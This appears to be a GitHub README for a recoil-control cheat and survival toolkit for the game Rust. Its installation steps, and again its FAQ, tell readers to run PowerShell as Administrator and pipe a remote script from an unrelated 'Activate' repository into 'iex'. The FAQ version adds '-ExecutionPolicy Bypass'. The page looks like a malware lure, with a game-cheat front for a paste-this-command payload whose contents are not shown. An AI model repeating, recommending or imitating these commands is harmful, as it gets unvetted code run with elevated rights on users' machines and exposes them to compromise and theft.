

<div align="center">


<br>


# Rust Script Recoil No Spread Pro Pack
**Recoil control · Resource tools · Multiplayer survival**
<br>
Premium · Full Edition · Windows



**Rust survival toolkit with weapon recoil management, resource gathering utilities, and base planning tools for multiplayer survival gameplay on Windows.**

</div>

---

> Survival companion for Rust — recoil profiles, farming route planner, and base layout tools for every wipe.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🔫 **Recoil control** — Per-weapon spray management for PvP encounters.
- ⛏️ **Resource routes** — Optimized farming paths for sulfur, metal, and components.
- 🏠 **Base planner** — Layout templates for efficient raid-resistant bases.
- 📊 **Wipe tracker** — Monitor progress, blueprints, and team stats per wipe.
- 🖥️ **Windows native** — Optimized for Windows 10 and 11 64-bit.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 15 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 15 GB free space.
</details>


TAGS
rust, survival, facepunch, multiplayer, sandbox, pvp, pc-gaming
